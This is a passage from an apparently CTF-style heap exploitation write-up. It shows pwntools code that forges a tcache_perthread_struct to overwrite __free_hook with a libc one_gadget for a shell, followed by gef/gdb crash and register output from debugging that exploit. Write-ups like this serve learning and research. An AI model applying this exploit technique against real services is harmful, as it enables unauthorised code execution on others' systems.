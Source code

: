 ```python
    entries = [0 for _ in range(TCACHE_MAX_BINS)]
    for addr,size in fake_ptrs.items():
        tidx = csize2tidx(size)
        counts[tidx] += 1
        entries[tidx] = addr
    return b''.join(map(p16,counts)) + b''.join(map(p64,entries))

SIZE = 0x40 # size of the 2nd allocation
free_hook = 0x00000000001EEB28+context.libc.address
tcache_pointer = 0x7facf8666530-0x00007facf8473000 + context.libc.address
fake_tcache = tcache_perthread_struct({free_hook: SIZE})

r.sendafter('Input your message:', fake_tcache)
r.sendafter('Where to write?:', pack(tcache_pointer))
r.sendafter('Any last message?:', pack(context.libc.select_gadget(1)))

r.interactive()
```
And we get a shell:
```c
 stack 
[!] Unmapped address
 code:x86:64 
   0x7f792a05bda9 <execvpe+1337>   mov    rax, QWORD PTR [rbp-0x68]
   0x7f792a05bdad <execvpe+1341>   mov    QWORD PTR [rbp-0x48], rax
   0x7f792a05bdb1 <execvpe+1345>   jmp    0x7f792a05bcdb <execvpe+1131>
 → 0x7f792a05bdb6 <execvpe+1350>   call   0x7f792a0a7970 <__stack_chk_fail>
   ↳  0x7f792a0a7970 <__stack_chk_fail+0> endbr64
      0x7f792a0a7974 <__stack_chk_fail+4> push   rax
      0x7f792a0a7975 <__stack_chk_fail+5> pop    rax
      0x7f792a0a7976 <__stack_chk_fail+6> lea    rdi, [rip+0x876e7]        # 0x7f792a12f064
      0x7f792a0a797d <__stack_chk_fail+13> sub    rsp, 0x8
      0x7f792a0a7981 <__stack_chk_fail+17> call   0x7f792a0a7990 <__fortify_fail>
 arguments (guessed) 
__stack_chk_fail (
)
 threads 
[#0] Id 1, Name: "ld-linux-x86-64", stopped 0x7f792a05bdb6 in execvpe (), reason: SIGSEGV
 trace 
[#0] 0x7f792a05bdb6 → execvpe()
[#1] 0x7f7929f9c0b3 → __libc_start_main()
[#2] 0x7f792a16a17e → hlt
[#3] 0x7ffe534a51a8 → sbb al, 0x0

gef➤
```
Wait, what?
## Triage
We'll modify the code a little bit to stop at the one_gadget:
```python
oneg = context.libc.select_gadget(1)
gdb.attach(r, gdbscript='b *'+hex(oneg)+'\nc')
r.sendafter('Any last message?:', pack(oneg))
```
`gdb` is enlightening:
```c
$rax   : 0x00007f98a3e18ce6  →  <execvpe+1142> mov rsi, r10
$rbx   : 0x00007f98a3f273a0  →  0x8d4c5741fa1e0ff3
$rcx   : 0x00007f98a3e42fb2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x2f
$rsp   : 0x00007ffe510e5638  →  0x00007f98a3f27376  →  0x4d8b4800000000b8
$rbp   : 0x00007ffe510e5660  →  0x0000000000000000
$rsi   : 0x00007f98a3f27376  →  0x4d8b4800000000b8
```